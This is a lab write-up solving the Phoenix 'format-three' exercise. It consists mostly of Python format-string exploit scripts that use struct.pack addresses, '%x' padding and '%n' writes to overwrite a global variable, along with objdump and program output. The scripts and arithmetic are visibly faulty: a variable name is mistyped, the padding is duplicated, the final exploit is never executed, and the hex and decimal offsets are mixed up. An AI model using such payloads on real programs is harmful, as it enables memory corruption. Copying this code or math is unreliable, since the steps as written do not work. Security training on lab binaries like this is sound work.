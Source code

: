 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Format Three:
The offset is 11 to the the begining of `buffer`.We will overwrite `changeme` byte by byte.Let get the address of `changeme` variable.

```bash
root@phoenix-amd64:/opt/phoenix/i486# objdump -x format-three | grep changeme
08049844 g     O .bss	00000004 changeme
```
First write is at `0x08049844`.
```python
import struct
import os
string = ''
string += struct.pack('I',0x08049844 )
string += struct.pack('I',0x08049845 )
string += struct.pack('I',0x08049846 )
string += struct.pack('I',0x08049847 )
strings += "%x."  * 11 
strings += '%n'
os.system("echo " + string + " | ./format-three ")
```
Lets see if 49 will be stored at `0x08049844`:
```bash
root@phoenix-amd64:/opt/phoenix/i486# python exploit.py 
Welcome to phoenix/format-three, brought to you by https://exploit.education
DFGH0.0.0.f7f81cf7.f7ffb000.ffffd638.8048556.ffffc630.ffffc630.fff.0.
Better luck next time - got 0x00000051, wanted 0x64457845!
```
To change 51 to 45 will need a higher number like 145 `145 - 51 = F4 --> 244` 
```python
string += "%x."  * 11
string += 'A' * 244 
string += '%n'
os.system("echo " + string + " | ./format-three ")
```
Run the program.
```bash
root@phoenix-amd64:/opt/phoenix/i486# python exploit.py 
------
Better luck next time - got 0x00000145, wanted 0x64457845!

```
- Now 145 bytes are stored at this address in next addres we need to write 78. `178 - 145 = 33 --> 51`.
- Then We need to write `45`. `245 - 178 = CD --> 205`.
- Finaly. we need 64.`264 - 205 = 1F --> 31`


### Exploit : 
```python
import struct
import os
string= ''
string += struct.pack('I', 0x08049844)
string += struct.pack('I', 0x08049845)
string += struct.pack('I', 0x08049846)
string += struct.pack('I', 0x08049847)
print(len(string))
string += '%x.' * 11
print(len(string))
string += '%x.' * 11 + 'A' * 244 +  '%n'
string += 'A' * 51 + '%n'
string += 'A' * 205 + '%n'
string += 'A' * 31 + '%n'
```

